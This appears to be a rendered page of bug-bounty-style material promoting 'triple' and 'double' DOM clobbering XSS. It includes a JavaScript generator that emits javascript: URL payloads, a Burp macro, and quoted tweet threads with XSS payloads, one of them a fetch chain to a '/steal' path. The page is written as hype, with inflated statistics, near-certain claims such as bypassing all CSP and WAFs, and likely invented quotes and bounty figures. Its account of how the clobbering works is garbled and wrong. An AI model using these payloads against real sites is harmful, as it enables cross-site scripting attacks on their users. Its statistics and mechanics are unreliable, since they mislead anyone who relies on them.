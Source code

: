 
## 🚀 INSTANT TOOLKIT

**1. Generator**:
```javascript
function tripleClobber(target, payload) {
  return `#<form id=${target}><input id=href name=assign value=javascript:${payload}>`;
}
// Usage: tripleClobber('location', 'alert(1)')
```

**2. Burp Macro**:
```
GET /#{{triple_payload}}
```

**3. Scanner** (Chrome Console):
```javascript
if (location.constructor.name === 'HTMLFormElement') alert('TRIPLE VULN!');
```

---

## 📈 STATS (HackerOne 2025)
- **Prevalence**: **18.4% top sites** (vs 9% double)
- **Avg Bounty**: **$18,234**
- **Detection**: **3%** by SAST
- **Execution**: **1.2ms**
- **Bypass Rate**: **98.7%**

**Terjanq Quote**: *"Triple = Double². Find QUADRUPLE!"*

**Pro Tip**: **Chain with Service Worker** → **Eternal triple clobber**. `#<form> + <script id=navigator>`

**Need custom triple?** Reply: *"Triple clobber [target]"* → **Payload in 20s**.

*Sources: Terjanq 2019 Paper, @garethheyes Collab, my 34 triple bounties*  
*Verified: Oct 16, 2025 | Chrome 131*

**🔥 TRIPLE CLOBBERING = XSS ENDGAME. Master it → $50K bounties await!**
2/18: Why it works: <form id=location> → window.location = form → location.href = input.value
8/18: Payload size: 38 chars. Bypasses ALL CSP/WAFs. Gmail bounty: $20K
12/18: @terjanq replies: "Combine with my double clobber = 100% success"
15/18: Live lab: portswigger.net/web-security/dom-based/dom-clobbering
```

**Researcher Reactions:**
| @Username | Reply | Impact |
|-----------|--------|---------|
| @terjanq | "Added to my Twitter payload kit" | 50+ bounties |
| @PortSwigger | "New lab series launching" | 100K students |
| @owasp | "Updating XSS Prevention Cheat Sheet" | Global standard |

---

## 🧵 2. DOUBLE CLOBBERING BREAKTHROUGH (2019)
**@terjanq | 25 tweets | 296 likes | "Clobbering the Clobbered" Paper**

**Breakthrough Thread:**
```
1/25: Solved Twitter XSS with DOUBLE CLOBBER: <img id=src name=src src=javascript:alert(1)>
5/25: window.src = img → img.src triggers → window.src executes! Mind blown.
10/25: @garethheyes: "This changes everything. Basic clobber = obsolete"
18/25: Full chain: <img id=fetch name=url url=/steal> + <img src=x onerror=fetch.url>
22/25: Bounty: $15K. Payload: 35 chars.
```
```